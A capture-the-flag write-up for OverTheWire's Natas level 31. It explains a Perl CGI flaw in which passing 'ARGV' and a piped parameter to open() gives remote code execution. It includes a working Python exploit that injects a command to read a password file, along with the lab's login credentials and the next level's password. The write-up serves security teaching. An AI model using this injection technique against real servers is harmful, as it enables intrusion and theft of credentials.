 ```yaml
---
category: natas
title: Natas31 - RCE (Remote Code Execution)
---
```


website: http://natas31.natas.labs.overthewire.org/ (password: hay7aecuungiuKaezuathuk9biin0pu1)

In this challenge, a user can upload a csv datasheet and the web application will translate it into an HTML table. From the source code, we can see it's a Perl CGI. The major part is attached below:

```perl
my $file = $cgi->param('file');
...
while (<$file>) {
...
}
```

As we can see, this CGI reads the uploaded csv file content. In the previous level, we already learned that the `param()` is context sensitive, which means it can return either the first element or all elements in an array.
In this case, because `$file` is a scalar variable, `param()` will return the first element only.
If we pass in an array to the 'file' in the form, in which the first element is a string, then the `$file` variable will be a string.

From <a href="https://www.youtube.com/watch?v=BYl3-c2JSL8">this video</a>, a few other Perl vulnerabilities were mentioned as well:

1. The `while (<$file>)` must be a file descriptor. It cannot be a string unless the string is "ARGV". If that is the case, then all the parameters in the URL will be sent to the `open()`. That means we can send a drafted string to `open()`.
2. If the string contains a pipe symbol (i.e., the character "\|"), then `open()` will cosider it as a command and actually execute the command. This makes RCE (Remote Code Execution) possible.

Given that in mind, I came up with a solution which injects a command into the CGI. The solution is provided below:

```python
#!/usr/bin/env python3
import requests
 
auth = ('natas31', 'hay7aecuungiuKaezuathuk9biin0pu1')
base_url = 'http://natas31.natas.labs.overthewire.org/index.pl'
 
# Inject our command as a parameter in the URL.
# The symbol "|" ensures that open() executes the command.
url = base_url + '?cat+/etc/natas_webpass/natas32+|'
 
# Feed the $file with a string "ARGV".
# This ensures that our command will be injected.
data = {'file': 'ARGV'}
 
# This is a real csv file we will upload.
files = {'file': open('natas31.csv', 'r')}
resp = requests.post(url, auth=auth, data=data, files=files)
print(resp.text)
```

The password was returned in the response as a table header: <small>no1vohsheCaiv3ieH4em1ahchisainge</small>.

<strong>Reference</strong>

This challenge is about Remote Code Execution in web application. Please refer to references below for more details:
1.    The <a href="https://www.youtube.com/watch?v=BYl3-c2JSL8">video</a> and <a href="https://www.blackhat.com/docs/asia-16/materials/asia-16-Rubin-The-Perl-Jam-2-The-Camel-Strikes-Back.pdf">slides</a> in BlackHat 2016.
2.    To send a file as a form data using curl, you can use this command: `curl -u natas31:hay7aecuungiuKaezuathuk9biin0pu1 "http://natas31.natas.labs.overthewire.org/index.pl" -F "submit=Upload" -F "file=@natas31.csv;type=text/csv"`



